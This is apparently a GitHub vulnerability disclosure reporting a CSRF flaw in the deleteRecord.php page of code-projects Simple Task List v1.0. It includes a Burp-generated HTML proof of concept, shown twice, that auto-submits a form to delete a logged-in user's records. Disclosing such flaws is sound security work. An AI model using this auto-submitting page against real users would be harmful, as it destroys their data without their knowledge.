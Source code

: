 # Summary
There is a CSRF vulnerability in code-projects Simple Task List system v1.0(https://code-projects.org/simple-task-list-in-php-with-source-code/).

Affected component is `deleteRecord.php`.

# Details
There is no token verification at the Delete Record page. As long as the user is logged in, the attacker can trick the user into clicking the link to delete the record data.

![image](https://github.com/user-attachments/assets/3dd0f662-1bac-4318-a372-e9b68b838231)
![image](https://github.com/user-attachments/assets/81147f72-c56a-4bef-b219-4f64aec80dcb)
![image](https://github.com/user-attachments/assets/14a42283-4eef-49b7-b9ce-70ebe308e385)

PoC.html
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://task-list:82/TaskList/deleteRecord.php" method="POST">
      <input type="hidden" name="answer" value="yes" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
![task-list-CSRF](https://github.com/user-attachments/assets/0ba1e423-4f3f-4cbf-9a84-88e6d426d8b9)


# PoC
PoC.html
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://task-list:82/TaskList/deleteRecord.php" method="POST">
      <input type="hidden" name="answer" value="yes" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
![task-list-CSRF](https://github.com/user-attachments/assets/0ba1e423-4f3f-4cbf-9a84-88e6d426d8b9)
